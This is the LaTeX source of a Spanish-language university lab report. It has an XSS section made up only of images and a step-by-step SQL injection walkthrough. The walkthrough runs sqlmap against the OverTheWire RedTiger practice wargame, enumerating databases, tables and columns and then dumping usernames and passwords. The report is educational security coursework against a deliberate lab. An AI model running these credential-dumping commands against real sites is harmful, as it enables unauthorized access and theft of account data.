\documentclass[11pt,letterpaper]{article}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage{graphicx}
\usepackage{amsfonts}
\usepackage{multicol}
\usepackage{flushend}
\usepackage{float}
\usepackage{fancyhdr}
\usepackage{colortbl}
\usepackage{amssymb}
\usepackage[margin=0.5 in]{geometry}
\usepackage{hyperref}
\usepackage{amsmath}
\usepackage{diagbox, eqparbox, hhline}
\usepackage{amssymb}
\usepackage{listings}
\usepackage{times}
\usepackage{color}
\definecolor{cyan}{cmyk}{1,0,0,0}
\definecolor{gray97}{gray}{.97}
\definecolor{gray75}{gray}{.75}
\definecolor{gray45}{gray}{.45}

\lstset{ frame=Ltb,
framerule=0pt,
aboveskip=0.5cm,
framextopmargin=3pt,
framexbottommargin=3pt,
framexleftmargin=0.4cm,
framesep=0pt,
rulesep=.4pt,
backgroundcolor=\color{gray97},
rulesepcolor=\color{black},
%
stringstyle=\ttfamily,
showstringspaces = false,
basicstyle=\small\ttfamily,
commentstyle=\color{gray45},
keywordstyle=\bfseries,
%
numbers=left,
numbersep=15pt,
numberstyle=\tiny,
numberfirstline = false,
breaklines=true,
}

% minimizar fragmentado de listados
\lstnewenvironment{listing}[1][]
{\lstset{#1}\pagebreak[0]}{\pagebreak[0]}

\lstdefinestyle{consola}
{basicstyle=\scriptsize\bf\ttfamily,
backgroundcolor=\color{gray75},
}

\lstdefinestyle{C++}
{language=C++,
}

\renewcommand{\theequation}{\arabic{equation}}
\newcounter{neq}

\begin{document}
\setlength{\unitlength}{1cm}
\thispagestyle{empty}
\begin{picture}(18,4)
\put(0.5,0.2){
\includegraphics[scale=.35]{./img/unam1}}
\put(14.5,0){
\includegraphics[scale=.4]{./img/fciencias1}}
\end{picture}

\begin{center}
\textbf{{\LARGE Universidad Nacional Autónoma de México}}\\[0.2cm]
\textbf{{\LARGE Facultad de Ciencias\\Castro Mejia Jonatan Alejandro 314027687\\Leyva Castillo Luis Angel 314050577\\~\\Rosado Cabrera Diego 314293804}}\\[0.2cm]
\end{center}
\section{XSS}
\begin{center}

\includegraphics[scale=.4]{./Img/img0.png}
\end{center}~\\~\\~\\
\begin{center}

\includegraphics[scale=.4]{./Img/img1.png}
\end{center}~\\~\\~\\
\begin{center}

\includegraphics[scale=.4]{./Img/img2.png}
\end{center}~\\~\\~\\
\section{SQL Injection}
%Para XSS, encontrar un sitio web que presente esta vulnerabilidad, e inyectar una imagen de un servicio remoto, así como mostrar que se puede ejecutar código JavaScript ajeno a la página web original. Incluir captura de pantalla del sitio web que muestre el antes y el después de la ejecución del código XSS.
Primero accedemos a la pagina como se muestra en la imagen, notamos que el url no posee algún id, por lo que procedemos a darle click al 1 (el cual nos da la categoría 1).\\
\begin{center}

\includegraphics[scale=.6]{./Img/sqlmap0.png}
\end{center}~\\~\\
Se observa que se actualiza el url mostrando la categoría 1, por lo que podemos proceder a ejecutar sqlmap para obtener la información que necesitamos.\\
\begin{center}

\includegraphics[scale=.6]{./Img/sqlmap1.png}
\end{center}~\\~\\
Ejecutando el comando:\\
\begin{lstlisting}[style=consola]
$ sqlmap -u https://redtiger.labs.overthewire.org/level1.php?cat=1 --dbs --threads 4
\end{lstlisting} 
y se obtiene el nombre de la base de datos.\\
Parámetros usados:\\
\begin{itemize}
\item -u La URL que le pasaremos.
\item $--$dbs Noss regresa las bases de datos que se encuentren.
\end{itemize}
\begin{center}

\includegraphics[scale=.5]{./Img/sqlmap2.png}
\end{center}~\\~\\
Una vez obtenido el nombre de la base, tenemos que sacar el nombre de las tablas (aunque la pagina ya nos da el nombre de la tabla, lo hacemos por fines didácticos y por explicación de la herramienta), utilizando:\\ 
\begin{lstlisting}[style=consola]
$ sqlmap -u https://redtiger.labs.overthewire.org/level1.php?cat=1 -D hackit --tables --threads 4
\end{lstlisting} 
Parámetros utilizados:\\
\begin{itemize}
\item -D El nombre de la base de datos.
\item $--$tables El nombre de las tablas que contiene dicha base.
\end{itemize}
\begin{center}

\includegraphics[scale=.5]{./Img/sqlmap3.png}
\end{center}~\\~\\
Una vez obtenidas las tablas toca localizar las columnas, ejecutamos:\\
\begin{lstlisting}[style=consola]
$ sqlmap -u https://redtiger.labs.overthewire.org/level1.php?cat=1 -D hackit -T level1_users --columns --threads 4
\end{lstlisting} 
Parámetros utilizados:\\
\begin{itemize}
\item -T La tabla en la cual ingresaremos.
\item $--$columns El nombre de las columnas que contiene dicha tabla.
\end{itemize}
\begin{center}

\includegraphics[scale=.5]{./Img/sqlmap4.png}
\end{center}~\\~\\
Finalmente como ya tenemos el nombre de la tabla y las columnas que nos interesan, ejecutamos:\\
\begin{lstlisting}[style=consola]
$ sqlmap -u https://redtiger.labs.overthewire.org/level1.php?cat=1 -D hackit -T level1_users -C username,password --dump --threads 4
\end{lstlisting} 
Así obtendremos los usuarios así como sus passwords.\\
Parámetros utilizados:\\
\begin{itemize}
\item -C Las columnas a las cuales queremos acceder en la tabla.
\item $--$dump Obtenemos la información de las columnas.
\end{itemize}
\begin{center}

\includegraphics[scale=.5]{./Img/sqlmap5.png}
\end{center}~\\~\\
Al final solo lo ingresamos y...
\begin{center}

\includegraphics[scale=.6]{./Img/sqlmap6.png}
\end{center}~\\~\\
Ya habremos entrado =)
\begin{center}

\includegraphics[scale=.6]{./Img/sqlmap7.png}
\end{center}~\\~\\
Nota: Se uso Kali-Linux para esto, por eso se omite python al principio de cada comando, ademas se adjunta el Script de los comandos utilizados.
\end{document}